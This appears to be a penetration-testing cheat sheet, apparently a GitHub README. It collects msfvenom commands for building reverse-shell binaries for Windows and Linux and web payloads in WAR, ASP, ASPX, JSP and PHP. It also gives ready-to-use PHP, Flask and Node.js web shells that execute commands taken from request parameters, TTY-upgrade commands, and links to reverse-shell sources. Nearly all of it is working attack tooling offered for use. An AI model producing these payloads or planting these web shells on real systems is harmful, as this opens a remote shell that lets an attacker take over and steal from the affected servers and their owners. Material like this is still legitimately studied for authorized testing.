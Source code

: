 # Shell and Some Payloads
## Payload Structure - msfvenom
-> A staged payload is usually shipped in two parts. The first part contains a small primary payload that will establish a connection, transferring a larger secondary payload with the rest of the shellcode.  
e.g.  
```
windows/shell_reverse_tcp (stageless)
windows/shell/reverse_tcp (staged)
linux/shell_reverse_tcp (stageless)
linux/shell/reverse_tcp (staged)
```

## Non-Meterpreter Binaries
### Windows
#### .exe x86 staged - msfvenom (Non-Meterpreter)
```
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
```

#### .exe x64 staged - msfvenom (Non-Meterpreter)
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
```

#### .exe x86 stageless - msfvenom (Non-Meterpreter)
```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
```

#### .exe x64 stageless - msfvenom (Non-Meterpreter)
```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
```

### Linux
#### .elf x86 staged - msfvenom (Non-Meterpreter)
```
msfvenom -p linux/x86/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
```

#### .elf x64 staged - msfvenom (Non-Meterpreter)

```
msfvenom -p linux/x64/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
```

#### .elf x86 stageless - msfvenom (Non-Meterpreter)

```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
```

#### .elf x64 stageless - msfvenom (Non-Meterpreter)
```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
```

## Web Payloads
### Java WAR - msfvenom (Non-Meterpreter)
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war
```

### ASP - msfvenom (Non-Meterpreter)
```
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp
```

### ASPX - msfvenom (Non-Meterpreter)
```
msfvenom -f aspx -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<LPORT> -f aspx > shell.aspx
```

### JSP - msfvenom (Non-Meterpreter)
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.jsp
```

### WAR - msfvenom (Non-Meterpreter)
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.jsp
```

### PHP - msfvenom (Non-Meterpreter)
```
msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw > shell.php
```
or  
-> Find and edit
```
locate php-reverse-shell
```
or  
https://raw.githubusercontent.com/Dhayalanb/windows-php-reverse-shell/master/Reverse%20Shell.php

## Web Shells
### PHP 
```
<?php echo shell_exec($_GET['cmd']);?>
<?php system($_GET['cmd']);?>
<?php echo exec($_GET['cmd']);?>
```

### JSP
-> Find and edit
```
locate cmdjsp.jsp
```

### ASP
```
locate cmd-asp-5.1.asp
locate cmdasp.asp
```

### ASPX
```
locate cmdasp.aspx
```

### Webshell Infecting views.py - Python (Flask)
```
import os
from flask import Flask,request,os

app = Flask(__name__)
   
@app.route('/okay')
def cmd():
    return os.system(request.args.get('c'))

if __name__ == "__main__":
	app.run()
```
https://raw.githubusercontent.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/main/codes/webshells/views.py

### nodejs
```
const express = require('express')
const app = express();

app.listen(3000, () => 
	console.log('...')
);
function Exec(command){ 
	const { execSync } = require("child_process");
	const stdout = execSync(command);
	return "Result: "+stdout
}
app.get('/okay/:command', (req, res) => 
res.send(Exec(req.params.command))
);
```
https://raw.githubusercontent.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/main/codes/webshells/views.js

### Perl
-> Find and edit
```
locate perl-reverse-shell.pl
```

### Spawn tty via Python
```
python -c 'import pty;pty.spawn("/bin/bash")';
```

### Spawn an upgraded shell
```
export TERM=xterm && /usr/bin/script -qc /bin/bash /dev/null 
```
`ctrl + z`
```
stty raw -echo; fg 
```

### tools to make life easier
-> revshell generator
https://www.revshells.com/

-> CyberChef 
https://gchq.github.io/CyberChef/

-> urlencoder
https://www.urlencoder.org/
